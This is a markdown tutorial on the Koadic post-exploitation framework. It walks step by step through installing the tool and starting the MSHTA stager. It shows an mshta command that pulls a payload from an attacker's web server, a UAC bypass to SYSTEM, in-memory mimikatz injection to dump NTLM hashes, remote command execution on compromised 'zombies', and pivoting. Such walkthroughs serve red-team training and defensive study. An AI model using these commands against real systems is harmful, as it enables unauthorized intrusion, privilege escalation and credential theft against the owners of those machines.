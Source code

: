 # Koadic

PowerShell was a really great playground in the grove. But nowadays, and outside-of-the-testlab-box, even if you 
encode the PowerShell command into base64 or any other encoder, the payload delivery still get detected by hard 
implementation of the group policies and by AntiVirus with ML and AI, which detects the intrusion by a mere execution 
of the `powershell.exe` program.

* Koadic does not use PowerShell for post-exploitation, it supports scripting such as VBScript and JScript. 
* Koadic does not rely on TCP connections for continuous communication. The connection is maintained by requesting
multiple HTTP connections.
* An implant is a JavaScript or a VBScript code, to be executed by zombies to perform a certain task, like the post 
modules in Metasploit. The implants are categorised: pivot, persistence, manage, utils, elevate, gather, scan, fun, 
and inject.

## Requirements

Python package version 2 or 3

## Installation

### On Kali

     sudo apt install koadic

### On other *nix

    git clone https://github.com/zerosum0x0/koadic

Install the python packages koadic depends on:

    sudo pip install -r requirement.txt

Start her up with:

    ./koadic

Koadic starts with the MSHTA stager as the default stager. The Microsoft HTML 
Application (MSHTA) is a full-grown Microsoft Windows HTML application that is trusted 
by the developer who creates it. It's like the Internet Explorer browser but without the user 
interface or any strict security model. It displays only a few options, such as menus, icons, 
title information, and toolbars.

## A Koadic-style post-exploitation

### Stager Establishment

Set up the stager web server where the zombie will get connected.

To show the information for the current stager:

    (koadic: sta/js/mshta)$ info

To change these settings, use the `set` command (just like in Metasploit and Empire), for example:

    (koadic: sta/js/mshta)$ set SRVPORT 8080

To start the stager web server: 

    (koadic: sta/js/mshta)$ run

### Payload Execution

Drop the payload over to the target server and execute the payload to get the zombie hooked up by Koadic.

Different means of transport can be used to deliver the payload over to the target system (MS Word, PDF, EXE, DLL, 
...) and when the payload is executed on the target server, the `mshta http://192.168.122.108:8080/MDRV9` (but then
with your LHOST address) command is executed, and the stager hooks up the zombie. Koadic C2 will be notified when 
the zombie is connected.

Check your zombies with:

    (koadic: sta/js/mshta)$ zombies

This shows a zombies' ID (assigned by C2), IP, STATUS, and LAST SEEN. For more detail on a particular zombie:

    (koadic: sta/js/mshta)$ zombies <ID>

### Running Implants

Execute the implants to get domain information, SYSTEM access, and NTLM hashes. These can be used for further post-exploitation.

The `bypassuac_eventvwr` implant can be used for escalating privileges from ring 3 (user land privs) to SYSTEM.

    (koadic: sta/js/mshta)$ use implant/elevate/bypassuac_eventvwr
    (koadic: imp/ele/bypassuac_eventvwr)$ info

Get the payload `ID` from the `listeners` command, and set option

    (koadic: imp/ele/bypassuac_eventvwr)$ set payload <ID>

Execute implant on target: 

    (koadic: imp/ele/bypassuac_eventvwr)$ run

A new connection is created with the elevated privileges. Use the implant for dumping hash or for using mimikatz. 
Koadic injects the mimikatz DLL directly in memory:

    (koadic: imp/ele/bypassuac_eventvwr)$ use implant/inject/mimikatz_dynwrapx
    (koadic: imp/inj/mimikatz_dynwrapx)$ run

Run again to get the results:

    (koadic: imp/inj/mimikatz_dynwrapx)$ run

This brings the NTLM hashes, which can further be used in pivoting.

To execute a command on a zombie:

    (koadic: imp/inj/mimikatz_dynwrapx)$ use implant/manage/exec_cmd
    (koadic: imp/man/exec_cmd)$ info

Set "net user"

    (koadic: imp/man/exec_cmd)$ set cmd "net user"
    (koadic: imp/man/exec_cmd)$ run

### Pivoting

Hook the zombie and move around the network through it.